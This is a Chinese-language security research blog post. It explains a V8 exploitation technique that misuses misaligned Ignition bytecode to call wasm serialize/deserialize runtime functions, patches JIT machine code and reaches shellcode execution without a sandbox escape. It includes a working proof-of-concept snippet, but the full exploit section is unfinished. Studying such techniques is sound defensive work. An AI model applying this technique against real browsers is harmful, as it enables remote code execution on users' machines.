

## 背景介绍

今天闲得没事干在github搜v8 exploit, 搜到[cve-2025-10891](https://github.com/Wa1nut4/v8-exploit/tree/main/CVE-2025-10891). 给了一篇利用手法的[文章](https://osec.io/blog/2026-04-01-patch-gap-to-mobile-renderer-rce/), 仔细一看挺有意思的. 并不单纯因为漏洞本身, 而是看到的利用手法可能比较有代表性.

前两天是总结了另一种类型, 从TDZ入手的HoleAttack. 今天这种是从igntion bytecode错位执行入手, 可以达到shellcode执行

## 利用手法介绍

这种利用手法假设通过某个漏洞已经可以获取错位bytecode跳转. 而且版本不能太新, 因为用到的runtime函数(`%SerializeWasmModule, %DeserializeWasmModule`)在[2025-08](https://chromium-review.googlesource.com/c/v8/v8/+/6875821)被移到了`d8.wasm`下, 真实浏览器环境可能用不了了. 以及在新版`d8.wasm.deserializeModule`有对raw machine code的hash校验, 不允许对其修改. hash校验存在bss上, 我看过了:(

### 错位bytecode构造
首先从错位构造入手, 因为用`a = 0x12345678`这样的js语句可以生成4个字节可控(实际上并不能用到0xffffffff, 由于Smi的限制)的bytecode`01 0d 78 56 34 12 LdaSmi.ExtraWide [305419896]`, 除去两个字节用来跳转, 我们就可以有两个字节用来做别的事.

如果两个字节不够, 还可以通过`a + 0x12345678`来构造总计八个字节可控的bytecode`01 4c 78 56 34 12 00 00 00 00 AddSmi.ExtraWide [305419896], [0]`. 其中前四个字节是我们的立即数, 同样受到Smi的限制. 而后四个字节是feedback slot index, 这只能通过不停的创建新的js语句来增长.
类似于
```js
let a = 0;
function make(target_slot)
{
    return "a+1;\n".repeat(target_slot);
}
```
很扯淡对吧. 这样就让整个八个字节的构造相当麻烦和低效. 不过好在似乎只需要构造两次, 因为只有调用Runtime函数才需要比较长的bytecode执行, 其他很多操作都能在两个字节内完成.

### wasm序列化和反序列化

主角是`%SerializeWasmModule`和`DeserializeWasmModule`. `SerializeWasmModule`会暴露出受到turbofan jit优化后wasm函数的裸机器码, 而`%DeserializeWasmModule`会将它重新包装回WasmModule.

poc如下
```js
// 随便找一个wasm函数来加载
const wire = new Uint8Array(readbuffer("./test.wasm"));
const mod = new WebAssembly.Module(wire);
let instance = new WebAssembly.Instance(mod);
let { wasm_test } = instance.exports;

// 给这个wasm函数上turbofan优化, 保证%SerializeWasmModule能暴露出裸机器码
%WasmTierUpFunction(wasm_test);
wasm_test();

// 序列化, 然后取出shellcode
let serialized = %SerializeWasmModule(mod);
let bytes = new Uint8Array(serialized);
console.log(bytes);
bytes[107] = 0xcc; // 107会随版本变化

// 防止v8使用wire的Cache, 稍微改一下就行
const wire1 = new Uint8Array(wire.length + 4);
wire1.set(wire, 0);
wire1.set([0x00, 0x02, 0x01, 0x78], wire.length);

// 反序列化重新给他包装回去
const mod1 = %DeserializeWasmModule(serialized, wire1);
let instance1 = new WebAssembly.Instance(mod1);
({ wasm_test } = instance1.exports);

wasm_test();
```
在开启--allow-natives-syntax之后执行结果如下.


为啥说要有任意bytecode执行才能打呢, 因为正常浏览器环境肯定没有开`--allow-natives-syntax`, 所以需要我们手动构造call `%DeserializeWasmModule`和`%SerializeWasmModule`.

## 可能可用的cve

cve-2025-10891存在理论可能, 因为它可以达成bytecode跳转. cve-2025-9132也存在理论可能, 之前我用这个cve能打出bytecode跳转.

顺带一提, 之前我认为标准的浏览器利用链应该要是v8沙箱内部->逃逸v8沙箱->v8任意shellcode->renderer进程沙箱逃逸. 但这个利用手法似乎给了一种新的链子, 也就是不逃逸沙箱, 直接执行shellcode. 但现在是已经被修复了, 不太确定以后还会不会遇到这种不逃沙箱直接执行shellcode的链子.

## 修复方案, 可用范围, 完整exp

(有空再研究..先记录下...
